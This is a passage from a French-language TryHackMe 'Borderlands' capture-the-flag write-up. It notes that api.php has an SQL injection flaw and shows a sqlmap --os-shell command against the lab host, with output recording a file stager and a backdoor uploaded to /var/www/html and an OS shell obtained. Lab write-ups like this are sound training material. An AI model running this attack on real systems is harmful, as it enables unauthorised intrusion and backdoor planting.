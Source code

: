 ```php
?>
```

On voit que api.php est vulnérable à une injection sql, il y a aucun contrôle.  

```bash
tim@kali:~/Bureau/tryhackme/write-up/.git$ sqlmap -u "http://borderlands.thm /api.php?apikey=WEBLhvOJAH8d50Z4y5G5&documentid=1" -p "documentid" --os-shell
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.5.10#stable}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:30:26 /2021-11-11/

[17:30:26] [INFO] testing connection to the target URL
[17:30:26] [INFO] testing if the target URL content is stable
[17:30:26] [INFO] target URL content is stable
...
[17:30:44] [INFO] the back-end DBMS operating system is Linux
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 
do you want sqlmap to further try to provoke the full path disclosure? [Y/n] 
[17:30:49] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs, /usr/local/var/www') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 
[17:30:53] [WARNING] unable to automatically parse any web server path
[17:30:53] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
[17:30:53] [WARNING] potential permission problems detected ('Permission denied')
[17:30:53] [WARNING] unable to upload the file stager on '/var/www/'
[17:30:53] [INFO] trying to upload the file stager on '/var/www/' via UNION method
[17:30:53] [WARNING] expect junk characters inside the file as a leftover from UNION query
[17:30:53] [WARNING] it looks like the file has not been written (usually occurs if the DBMS process user has no write privileges in the destination path)
[17:30:53] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[17:30:54] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://borderlands.thm:80/tmpukjad.php
[17:30:54] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://borderlands.thm:80/tmpbildt.php
[17:30:54] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> 
...

```
